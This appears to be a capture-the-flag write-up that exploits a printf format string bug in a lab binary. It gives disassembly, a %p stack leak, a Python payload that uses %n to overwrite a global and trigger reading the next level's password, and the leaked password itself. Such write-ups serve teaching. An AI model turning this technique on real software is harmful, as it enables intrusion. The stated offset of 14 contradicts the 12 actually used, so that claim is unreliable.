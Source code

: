 In this level, the program contains a call to the fgets function, which is protected against buffer overflow:
```
=> 0x804847a <n+35>:	call   0x8048350 <fgets@plt>
```
We can see a call to printf with the user input as the string argument:
```
=> 0x8048450 <p+12>:	call   0x8048340 <printf@plt>
```
The program makes a comparison with an uninitialized variable:
```
0x804848d <n+54>:	mov    eax,ds:0x8049810
=> 0x8048492 <n+59>:	cmp    eax,0x1025544
```
If this check succeeds, the .pass file is printed using the system call:
```
system("/bin/cat /home/user/level5/.pass")
```
To exploit the program, we will use a Format String Attack.
We need to modify the variable located at `0x08049810`.
```
./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff764 0xb7fd0ff4 (nil) (nil) 0xbffff728 0x804848d 0xbffff520 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
The offset is 14. Now we construct the payload for exploitation:
```
$> python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/payload
$> cat /tmp/payload - | ./level4
```
Running the payload should overwrite the variable and trigger the system call with the desired argument, revealing the content of the .pass file:
```
$ cat /home/user/level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```